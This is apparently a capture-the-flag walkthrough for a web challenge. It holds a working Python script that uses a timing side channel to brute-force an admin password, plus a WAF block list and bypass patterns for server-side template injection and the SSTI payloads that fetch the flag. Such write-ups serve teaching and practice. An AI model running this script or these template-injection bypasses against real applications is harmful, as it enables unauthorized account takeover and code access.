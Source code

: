 **Description**

The application's entry point presents a modest login portal, yet its responses aren't quite as uniform as they first appear. Subtle variations betray a deeper inconsistency in how credentials are handled, hinting that each attempt might be revealing more than just "success" or "failure."

**Objectives**

* Probe the authentication gateway for any irregularities
* Leverage any discovered quirks to advance further into the application

---

**👤 Author**: *xtle0o0*

---

## Stage 1: Reconnaissance & Timing Attack Discovery

### Initial Analysis

The login function reveals a critical timing vulnerability in the admin authentication mechanism:

```python
if username == "admin":
    for i in range(min(len(password), len(stored_password))):
        if password[i] != stored_password[i]:
            error = "Invalid password"
            break
        else:
            time.sleep(0.1)  # ⚠️ Timing side channel!
```

**Key Observations:**
- Character-by-character password comparison for admin user
- 100ms delay (`time.sleep(0.1)`) for each correct character
- Password length: 20 characters (as hinted)
- Timing difference reveals correct characters progressively

### Exploitation Script

Here's a Python script to exploit the timing vulnerability:

```python
import requests
import string
import time

BASE_URL = "http://target:port"
LOGIN_URL = f"{BASE_URL}/login"
CHARSET = string.ascii_lowercase + string.ascii_uppercase + string.digits + "_{}!"

def measure_response_time(session, password_guess):
   data = {"username": "admin", "password": password_guess}
   start = time.time()
   r = session.post(LOGIN_URL, data=data, allow_redirects=False)
   elapsed = time.time() - start
   return elapsed, r

def find_admin_password(known_prefix="", max_length=32):
   session = requests.Session()
   discovered = known_prefix
   position = len(discovered)
   
   print(f"Starting timing attack...")
   if discovered:
       print(f"Known prefix: {discovered}")
   
   while position < max_length:
       print(f"Testing position {position + 1}...")
       timings = {}
       
       for c in CHARSET:
           guess = discovered + c
           elapsed, resp = measure_response_time(session, guess)
           
           if resp.status_code == 302:
               print(f"SUCCESS! Password found: {guess}")
               return guess
               
           timings[c] = elapsed
           print(f"  {guess}: {elapsed:.4f}s", end='\r')
       
       best_char = max(timings, key=timings.get)
       best_time = timings[best_char]
       discovered += best_char
       position += 1
       
       print(f"\nBest char: '{best_char}' ({best_time:.4f}s)")
       print(f"Current guess: {discovered}")
       
       _, resp = measure_response_time(session, discovered)
       if resp.status_code == 302:
           print(f"SUCCESS! Password found: {discovered}")
           return discovered

   return discovered

if __name__ == "__main__":
   admin_password = find_admin_password()
   print(f"Final password: {admin_password}")
```

**Expected Timeline:** 5-8 minutes for complete password extraction

![Timing attack script execution](../../assets/{7F1081E6-32CC-4DDA-A694-14F817950EA3}.png)

**Discovered Password:** `citeflagisthebest123`

## Stage 2: Post-Authentication Exploitation

### Server-Side Template Injection (SSTI)

After successful authentication as admin, the dashboard reveals a custom greeting feature vulnerable to SSTI:

### WAF Analysis & Bypass

The application implements a Web Application Firewall with specific blocked patterns:

**Blocked Patterns:**
- `\{\{\s*[0-9+\-*\/]+\s*\}\}` (Math operations)
- `config`, `__class__`, `__mro__`, `__globals__`
- `__subclasses__`, `__builtins__`, `__import__`
- `os\.environ`, `subprocess`, `eval`, `exec`

**Allowed Bypass Patterns:**
- `{{request.args.get('param')}}`
- `{{var|attr('attribute')}}`
- `{{'str1'~'str2'}}`
- `{{[].property}}`

![WAF blocking attempt](../../assets/{A18DA9CB-AB40-4CB9-A10C-6A190E44A0F6}.png)

### SSTI Exploitation Methods

#### Method 1: Direct Function Call (Simplest)
The application conveniently provides a `get_flag()` function in the template context:

```
?greeting={{get_flag()}}
```

#### Method 2: Self Dictionary Access
```
?greeting={{self.__dict__}}
```

#### Method 3: Environment Variable Access
```
?greeting={{environ.FLAG}}
```

### Flag Retrieval

Navigate to the dashboard with the SSTI payload:
```
http://target:port/dashboard?greeting={{get_flag()}}
```

![Successful flag retrieval](../../assets/{4EEE5873-2A00-4A6B-9787-14F1138959DE}.png)

The flag will be rendered in the custom greeting section of the dashboard.